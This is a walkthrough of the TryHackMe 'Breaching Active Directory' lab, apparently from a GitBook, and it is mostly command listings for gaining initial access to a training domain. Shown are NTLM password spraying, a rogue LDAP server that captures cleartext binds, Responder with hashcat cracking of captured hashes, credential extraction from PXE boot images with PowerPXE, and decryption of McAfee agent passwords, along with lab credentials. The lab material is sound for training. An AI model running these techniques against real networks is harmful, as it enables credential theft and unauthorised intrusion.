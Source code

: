 # Breaching Active Directory

**Room Link:** [https://tryhackme.com/room/breachingad](https://tryhackme.com/room/breachingad)



## Introduction to AD Breaches

**Kali**

```
systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com
nslookup thmdc.za.tryhackme.com
```

## NTLM Authenticated Services

**Kali**

```
unzip passwordsprayer.zip 
python /root/Rooms/BreachingAD/task3/ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a "http://ntlmauth.za.tryhackme.com"
```

<figure><img src="../../.gitbook/assets/image (15) (8).png" alt=""><figcaption></figcaption></figure>

## LDAP Bind Credentials

**Kali**

```
service slapd stop
nc -lvp 389
```

<figure><img src="../../.gitbook/assets/image (9) (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (10).png" alt=""><figcaption></figcaption></figure>

### Hosting a Rogue LDAP Server

**Kali**

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

<figure><img src="../../.gitbook/assets/image (13) (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
vi olcSaslSecProps.ldif
```



**olcSaslSecProps.ldif**

```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:

* olcSaslSecProps: Specifies the SASL security properties
* noanonymous: Disables mechanisms that support anonymous login
* minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

**Kali**

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

**Before**

<figure><img src="../../.gitbook/assets/image (12) (10).png" alt=""><figcaption></figcaption></figure>

**After**

<figure><img src="../../.gitbook/assets/image (11) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Capturing LDAP Credentials

Our rogue LDAP server has now been configured. When we click the "Test Settings" at [http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx), the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:



<figure><img src="../../.gitbook/assets/image (6) (5) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo tcpdump -SX -i breachad tcp port 389
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (9).png" alt=""><figcaption></figcaption></figure>



## Authentication Relays

**Kali**

```
sudo service slapd stop
sudo responder -I breachad
```

<figure><img src="../../.gitbook/assets/image (7) (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 5600 hash.txt passwordlist.txt --force 
hashcat -m 5600 hash.txt passwordlist.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Microsoft Deployment Toolkit

**Kali**

```
ssh thm@THMJMP1.za.tryhackme.com
Password: Password1@
```

**Victim**

```
cd Documents
mkdir thm
copy C:\powerpxe thm
cd thm
```

**Victim**

```
tftp -i $THMMDTIP GET "\Tmp\x64{39...28}.bcd" conf.bcd
```

**Victim**

```
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
```

**Victim**

```
tftp -i $THMMDTIP  GET "<PXE Boot Image Location>" pxeboot.wim
```

**Victim**

```
Get-FindCredentials -WimFile pxeboot.wim
```

## Configuration Files

**Victim**

```
cd C:\ProgramData\McAfee\Agent\DB
```

**Victim**

```
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
Password: Password1@
```

**Kali**

```
sqlitebrowser ma.db
```

**Kali**

```
cp /root/Rooms/BreachingAD/task7/mcafeesitelistpwddecryption.zip .
unzip mcafeesitelistpwddecryption.zip
```

<figure><img src="../../.gitbook/assets/image (4) (1) (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 mcafee-sitelist-pwd-decryption-master/mcafee_sitelist_pwd_decrypt.py  jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

<figure><img src="../../.gitbook/assets/image (18) (7).png" alt=""><figcaption></figcaption></figure>
